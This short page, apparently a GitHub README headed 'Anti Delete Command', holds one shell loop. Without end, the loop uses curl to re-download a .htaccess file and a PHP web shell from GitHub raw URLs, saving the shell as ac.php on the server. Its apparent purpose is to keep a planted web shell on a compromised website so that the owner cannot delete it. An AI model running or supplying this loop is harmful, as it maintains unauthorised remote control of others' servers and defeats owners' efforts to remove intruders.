 ## Anti Delete Command
### while true; do echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess && echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/KosameAmegai/WebShell/main/Php/anonsecteam.php -o ac.php; done
